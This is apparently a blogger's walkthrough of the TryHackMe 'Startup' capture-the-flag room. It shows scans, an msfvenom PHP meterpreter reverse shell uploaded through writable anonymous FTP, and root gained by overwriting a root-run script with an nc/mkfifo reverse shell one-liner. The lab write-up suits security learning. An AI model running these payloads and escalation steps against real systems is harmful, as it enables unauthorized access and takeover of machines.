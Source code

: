 ```yaml
---
layout: default
title : Startup - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 09, 2020**_

[Startup](https://tryhackme.com/room/startup) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV 10.10.252.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.252.135/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.252.135/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```
The `/*****` is holding the shared files via `FTP`, we gonna need it later to execute our shell.

## FTP :

```                                                        
bvr0n@kali:~$ ncftp 10.10.252.135
Connecting to 10.10.252.135...                                                                                                         
ncftp / > ls
ftp/         notice.txt
ncftp / > ls -la
drwxrwxrwx    2 65534    65534        4096 Nov 09 17:24 ftp
```

I noticed that we can write in `/ftp`, so let's upload a reverse shell there, and execute it in the web browser :

Create a payload :

```
bvr0n@kali:~$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f raw > startup.php
```

Upload it into `/ftp/`:

```
ncftp /ftp > put startup.php
startup.php:                                            37.42 kB  124.55 kB/s  
Could not preserve times for startup.aspx: UTIME failed.
ncftp /ftp >
```
Set a Metasploit handler and exploit :

```
msf5 exploit(multi/handler) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.*.**.***:4444 
[*] Meterpreter session 2 opened (10.*.**.***:4444 -> 10.10.223.78:34244) at 2020-11-09 12:29:21 -0500
```

## Internal Enum :

So i stumbbles across a `Traffic Capture` file, after analysing it, i noticed a password for `Lennie`:
```
[sudo] password for www-data: 
@       ******************
6%      @
Sorry, try again.
```
for the root part, there is a script inside `/lennie` that going to allow us to pivot :

```
root@startup:~# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So basically what this script does,`root` is running what ever on `/etc/print.sh`, lucky for us is it writeable by us :D :

```
root@startup:~# ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 91 Nov  9 18:48 /etc/print.sh
```
So i filled it with a basic reverse shell :

```
root@startup:~# cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
Now we are set to go, set up a `nc` listener and execute `planner.sh`, and you should get a shell ;)

```
root@startup:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
startup
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
